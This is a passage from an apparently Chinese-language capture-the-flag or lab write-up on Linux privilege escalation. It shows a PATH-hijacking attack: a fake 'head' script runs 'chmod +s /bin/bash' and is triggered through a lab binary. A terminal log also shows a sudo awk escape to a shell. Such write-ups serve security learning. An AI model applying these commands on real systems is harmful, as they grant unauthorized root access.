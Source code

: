 对胃了！作者直接把head摔在脸上了，将其添加到最前面的环境变量上面，运行一下试试：

```
export PATH=/home/laboratoryadmin/autoScripts:$PATH
./PMCEmployees
whoami;id
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148139.png" alt="image-20240319012752456" style="zoom:50%;" />

当然，也不是非要用这个作者的`head`，我们完全可以自己写一个：

```bash
cd /tmp;touch head;
echo 'chmod +s /bin/bash' > head
chmod +x head
export PATH="$PWD:$PATH"
which head
# /tmp/head
cd /home/laboratoryadmin/autoScripts
./PMCEmployees
```

```bash
pmccentral@laboratoryuser:~$ sudo -u laboratoryadmin awk 'BEGIN {system("/bin/sh")}'
[sudo] password for pmccentral: 
$ cd /tmp;touch head;
$ echo "chmod +s /bin/bash" > head
$ cat head
chmod +s /bin/bash
$ export $PATH= $PWD:$PATH
/bin/sh: 4: export: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin: bad variable name
$ export PATH="$PWD:$PATH"
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
$ cd /home
$ ls
laboratoryadmin  pmccentral
$ cd laboratoryadmin/autoScripts
$ ls
head  PMCEmployees
$ ./PMCEmployees
aren
Aarika
Abagael
Abagail
Abbe
Abbey
Abbi
Abbie
Abby
Abbye
Showing top 10 best employees of PMC company$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
$ cd /tmp
$ ls
head
snap-private-tmp
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-apache2.service-qkdTjh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-ModemManager.service-KJJjTh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-logind.service-Ze1uNh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-resolved.service-SAAUQf
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-timesyncd.service-74TQVi
$ rm head
$ echo 'chmod +s /bin/bash' > head
```